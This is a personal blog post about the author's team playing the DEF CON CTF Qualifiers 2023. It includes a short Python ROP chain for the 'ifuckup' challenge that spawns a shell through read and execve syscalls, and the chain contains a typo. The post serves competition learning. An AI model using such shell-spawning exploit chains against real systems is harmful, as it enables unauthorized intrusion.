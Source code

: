 +++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chai += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadowwws, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### livectf
Overall was a lot of fun, I am not the fastest coder so I mainly helped with ideas and brainstorming. My favorite challenge was liveCTF3 which revolved around designing your own elf link.so. I thought it was cool, and something I had never really thought about before. In the end, you can manually place some shellcode in the executable section and trigger it at the end of main execution.

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(

![failure to launch](defcon_stats.png)
